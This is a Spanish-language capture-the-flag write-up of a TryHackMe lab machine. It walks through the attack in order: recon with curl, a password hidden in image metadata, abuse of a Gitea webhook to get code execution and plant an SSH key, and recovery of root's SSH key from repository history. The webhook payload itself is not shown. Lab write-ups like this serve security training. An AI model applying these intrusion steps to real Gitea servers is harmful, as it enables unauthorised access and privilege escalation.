

| Link | Nivel | Creadot |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/gitandcrumpets)  | Medio  |  [hydragyrum](https://tryhackme.com/p/hydragyrum)  |

## Reconocimiento

En la descripción de esta sala podemos encontrar que "_the developers included a few countermeasures..._"("_los desarrolladores incluyeron algunas contramedidas ..._").

Es muy difícil usar `nmap` porque el servidor comienza a bloquear nuestras solicitudes.
Prácticamente no podemos escanear la máquina, solo tenemos la IP y usando el navegador nos redirige a un video de Youtube.

Pero podemos usar `curl` para obtener el código fuente de la página.

```bash
╰─ lanfran@parrot ❯ curl 10.10.197.95                                                                                              ─╯
[...]
      <h1>Nothing to see here, move along</h1>
      <h2>Notice:</h2>
      <p> 
        Hey guys,
           I set up the dev repos at [REDACTADO].git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet. 
           In the meantime, here's a fun video I found!
        Hydra
      </p>
      <pre>
[...]
```
Agreguemos el nuevo subdominio encontrado a nuestro archivo `/etc/hosts` y naveguemos hasta él.

Es una página de Gitea.

## Acceso inicial - Usuario

Busqué en la página y no encontré nada. Así que registré una nueva cuenta.

Navegando a través de los repositorios, encontré 2 usuarios, ***scones*** y ***hydra*** con algunos repositorios propios.

El usuario _scones_, disponía de un repositorio donde realizó algunos cambios.

Leyendo los comentarios del commit _"I kept the password in my avatar to be more secure."_(_"Guardé la contraseña en mi avatar para estar más seguro"_) sabemos donde este usuario almacena su contraseña.

Así que descargué el archivo y usé `exiftool` para ver si tenía algo interesante.

```bash
╰─ lanfran@parrot ❯ exiftool cant-touch-this/photo.jpg                                                                            
[...]
Interlace                       : Noninterlaced
Description                     : My [REDACTADO] guess
[...]
```

¡Cool!

¡Ahora podemos iniciar sesión en la página con el usuario `scones` y su contraseña!

Buscando en Google, Gitea tiene un exploit en el que puede usar webhooks para RCE/ECR.(Remote Code Execution / Ejecución de Código Remoto).

¡Así que usemos el repositorio `cant-touch-this` para explotarlo!

Desafortunadamente, no podemos obtener una shell reversa directamente. Pero podemos poner nuestra clave `SSH` en las `authorized_keys` del usuario "git". Incluso podemos leer la Flag del usuario desde aquí.



Luego de agregar esa parte al webhook, clonamos el repositorio a nuestra maquina local y realizamos un nuevo commit.

```bash
git clone http://[REDACTADO].git-and-crumpets.thm/scones/cant-touch-this.git
[...]

╰─ lanfran@parrot ❯ git add hello.php && git commit -m "Exploiting" && git push -u origin master                                   ─╯
[master 6233b49] Exploiting

[...]
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 hello.php
Username for 'http://[REDACTADO].git-and-crumpets.thm': scones
Password for 'http://scones@[REDACTADO].git-and-crumpets.thm': 
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (2/2), 276 bytes | 276.00 KiB/s, done.
Total 2 (delta 0), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
remote: dGhte2ZkN2Fi[REDACTADO]ZhYTE2fQ== <--- ****USER FLAG****
To http://[REDACTADO].git-and-crumpets.thm/scones/cant-touch-this.git
   9ae06d7..6233b49  master -> master
Branch 'master' set up to track remote branch 'master' from 'origin'.
```

Si todo salió bien, podremos loguearnos por SSH con el usuario _git_.

```bash
─ lanfran@parrot ❯ ssh git@git-and-crumpets.thm -i id_rsa                                                                     ─╯
Warning: Permanently added the ECDSA host key for IP address '10.10.69.176' to the list of known hosts.
Last failed login: Fri May 21 18:30:37 CEST 2021 from 192.168.247.1 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Sat Apr 17 23:07:52 2021
[git@git-and-crumpets ~]$ ls
user.txt
```
## Root

Investigando la máquina, encontré una carpeta interesante dentro del repositorio de Gitea de `root`.

```bash
[git@git-and-crumpets ~]$ ls -la /var/lib/gitea/data/gitea-repositories/root
total 0
drwxr-xr-x. 3 git git  24 Apr 15 15:25 .
drwxr-xr-x. 5 git git  45 Apr 15 15:50 ..
drwxr-xr-x. 7 git git 119 Apr 15 15:25 backup.git
```
Descargué la carpeta entera y utilizé el `extractor de GitTools` para extraer todos los commits.

```bash
/THM/tools/GitTools/Extractor/extractor.sh ~/THM/gitandcrumpets/root/ .
```

Después de eso, usé `git log` para verificar lo que hizo el usuario.

Verifiqué los hashes de los commits e realizé un `git diff` de todos ellos.

¡Encontré la clave privada SSH de root!

```bash
─ lanfran@parrot ❯ git diff 0b23539d97978fc83b763ef8a4b3882d16e71d32 c242a466aa5d4ae0bb8206ef5d05351d3fd6aff9 > dumped_data
```
Dentro de `dumped_data` tenemos la clave SSH y dónde se almacenó la clave, junto con el nombre del archivo.

Intenté loguearme por SSH con root a la máquina, pero estaba protegido. Así que corrí Hydra para crackearlo ...

PERO, estaba tomando demasiado tiempo, asi que probé con el nombre del archivo de la clave SSH: "Su[REDACTADO]r3". ¿Cómo conseguí esto? dentro del archivo `dumped_data` :)

```bash
╰─ lanfran@parrot ❯ ssh root@git-and-crumpets.thm -i id_rsa_root                                                                  ─╯
Enter passphrase for key 'id_rsa_root': 
Last login: Fri Jul  2 23:11:30 2021
[root@git-and-crumpets ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@git-and-crumpets ~]# ls 
anaconda-ks.cfg  root.txt
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!